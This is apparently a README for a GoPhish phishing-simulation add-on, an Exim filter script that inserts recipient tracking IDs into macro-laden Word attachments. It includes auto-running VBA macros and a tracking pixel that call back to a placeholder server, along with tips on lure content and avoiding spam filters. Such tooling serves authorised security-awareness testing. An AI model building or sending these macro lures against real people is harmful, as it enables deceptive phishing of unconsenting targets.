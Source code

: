 # gophish-macro-attachment
Exim transport_filter python script that puts a user's RID value where a macro can see it for macro phishing

# Usage
1. Install exim (listen on loopback); then add this script's path into `exim.conf` as a `transport_filter` (see [here](https://www.exim.org/exim-html-current/doc/html/spec_html/ch-generic_options_for_transports.html) for more information)
2. Set up a GoPhish sending profile that points at this local Exim instance
3. Create an email attachment & template per the following

## Email template
The email template can be whatever you want, but must include the following exactly somewhere in the body: 

`<!-- RID: {{.RId}} -->`

This is how the script knows the user's RID. It will be removed by the script, so don't worry if you're sending a plain text email.

Next, add an attachment created as follows:

### Type 1 (OLE document format)

N.B.: The drawback to this form is that it does not support "Clicked link" status; you will only know if the user enabled macros.
However, it is simpler and is probably less suspicious (to spam filters, at least). 

1. Create a Word Document and add a macro like the following under ThisDocument: 

```
Private Sub Document_Open()
  Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
  URL = "http://YourGoPhishServer.com/?rid=" & Replace(ActiveDocument.BuiltInDocumentProperties("Comments"),".","")
  objHTTP.Open "POST", URL, False
  objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
  objHTTP.send("")
End Sub
```
2. Add whatever enticing content you want to the body. 
3. Save in Word 97-2003 format (.doc)
4. Right click the file in Explorer, choose Properties, click the Details tab
5. Set "Comments" to `{{.RidPlaceholder}}`

### Type 2 (MHT/MHTML format)

This is slightly more complex to create and more suspicious; however, it will show you if the user opened the document without enabling macros.

1. Create a Word Document, save as .MHT (Single file webpage)
2. Add whatever enticing content you'd like to the document.
3. Add a macro like the following under ThisDocument: 
```
Private Sub Document_Open()
  Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
  URL = "http://YourGoPhishServer.com/?rid=" & ActiveDocument.BuiltInDocumentProperties("Author")
  objHTTP.Open "POST", URL, False
  objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
  objHTTP.send("")
End Sub
```
4. Save
5. Open the .MHT file in Notepad/Notepad++
6. Look for the following lines near the top: 
```
 <o:DocumentProperties>
  <o:Author>John</o:Author>
  <o:LastAuthor>John</o:LastAuthor>
```
7. Replace the "Author" value with `{{.RIDPLACEHOLDER}}` (case-sensitive)
8. Look for the end of the body of the document (e.g. `</body>`)
9. Type the following right before the `</div></body>` portion:
```
<img src=3D"http://YourGoPhishServer/?rid=3D{{.RIDPLACEHOLDER}}" height=3D1 width=3D1/>
```

N.B. The "3D" parts are VERY IMPORTANT to this working properly. It's part of how the document is encoded/escaped. 
I would suggest copying it exactly as shown and just modifying the server URL.

10. Attach this file with the .MHT extension - it will be renamed to .doc by the script.


Have fun!
